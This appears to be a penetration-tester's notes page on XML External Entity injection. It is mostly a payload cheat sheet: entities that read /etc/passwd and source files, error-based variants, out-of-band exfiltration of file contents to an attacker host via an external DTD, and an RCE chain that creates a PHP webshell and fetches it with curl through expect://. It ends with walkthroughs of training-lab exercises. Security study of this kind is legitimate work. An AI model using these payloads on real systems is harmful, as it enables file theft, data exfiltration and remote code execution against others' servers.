



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# XXEI


**XML External Entity Injection (XXE)** is a vulnerability where an attacker exploits the XML parser to include and process external entities, which can lead to unauthorized access to files or services.



This can result in data exfiltration, server-side request forgery, or application crashes, as attackers can access sensitive files or internal systems.



Disable external entity processing in XML parsers, validate and sanitize XML inputs, and use secure XML parsing libraries that are configured to prevent XXE attacks.


## Payloads

### Common



```xml
<!-- This works in certain Java web applications -->
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/">
]>
```



```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```




```xml
<!DOCTYPE test [
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```





```xml
<!-- The PHP://expect filter is not installed by default. Also for this to work, the output must be reflected. -->
<!DOCTYPE test [
<!ENTITY company SYSTEM "expect://whoami'">
]>
```




### Error-Based

We can also **force a validation or a truncation error** on the application which may lead to a **verbose error message**.




```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<!-- Passing a file in a field that expects a timestamp -->
<createdStamp>&xxe;</createdStamp>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```





```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE" createdStamp="2021-06-04 08:16:18.258">
<longDescription>XXE</longDescription>
<description>&xxe;</description>
</Product>
</entity-engine-xml>
```




### Out-of-Band

If we cannot access the results of our XXEI attack or obtain verbose error messages, we can use external entities to reference resources on other servers and exfiltrate data as part of the request that loads the external resource.


```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.214/out?%content;'>" >
```


The payload can be seen below. We start by including a parameter entiry that reference `external.dtd` and then with the `%base` entity, which will cause the parser to parse the `external.dtd` file. Next, the parser will expand the `external` entity, creating the `exfil` entity which we will then reference.

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.214/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

### RCE

We can achieve RCE via a URL-referenced DTD.



```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```



```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```



### File Uploads

We can leverage a[ **file upload** functionality by uploading **XML-based formats**](xxei.md#svg-xxei-greater-than-lfi) (`svg`, `docx`). In this case we must ensure to set `Content-Type: text/svg+xml`.

## Examples

### XXEI -> LFI

> _The example below is based on HTB's_ [_Web Enumeration & Exploitation_](https://academy.hackthebox.com/module/163/section/1544) _module._

The checkout process is sending data in XML format (Figure 1).

<figure><figcaption><p>Figure 1: The checkout process sends dota in XML format.</p></figcaption></figure>

The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we can also confirm it (Figure 2).

<figure><figcaption><p>Figure 2: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 3).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><figcaption><p>Figure 3: LFI via XXE.</p></figcaption></figure>

### SVG XXEI -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XXE via image file upload_](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) _lab._

The application has an upload functionality within the comments section (Figure 4).

<figure><figcaption><p>Figure 4: Enumerating a potential XXE injection vulnerability.</p></figcaption></figure>

We can try injecting a out-of-the-box payload, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg), and see what comes back (Figure 5).


```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```


<figure><figcaption><p>Figure 5: Achieving LFI via XXE injection.</p></figcaption></figure>

### XInclude -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XInclude to retrieve files_](https://portswigger.net/web-security/xxe/lab-xinclude-attack) _lab._

When using the `Check Stock` functionality the `POST` request made does not seem to process XML data (Figure 6).

<figure><figcaption><p>Figure 6: A normal, non XML-related, <code>POST</code> request.</p></figcaption></figure>

In this case, where we can't see XML data directly and we can't modify the `DOCTYPE` element, we can use `XInclude` payloads, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks), as parameter values (Figure 7).

<figure><figcaption><p>Figure 7: Using an <code>XInclude</code> payload to achieve LFI.</p></figcaption></figure>
